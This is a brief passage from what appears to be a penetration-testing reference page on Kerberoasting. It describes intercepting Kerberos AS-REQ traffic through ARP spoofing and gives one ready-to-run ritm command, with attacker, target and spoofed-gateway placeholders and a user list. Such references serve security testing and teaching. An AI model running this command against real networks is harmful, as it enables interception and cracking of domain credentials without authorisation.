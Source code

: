 # Kerberoasting

## With MitM

If no principal without pre-authentication are present, it is still possible to intercept the AS-REQ requests on the wire (with ARP spoofing for example), and replay them to kerberoast.

    ritm -i <attacker_IP> -t <target_IP> -g <gateway_to_spoof> -u users.txt
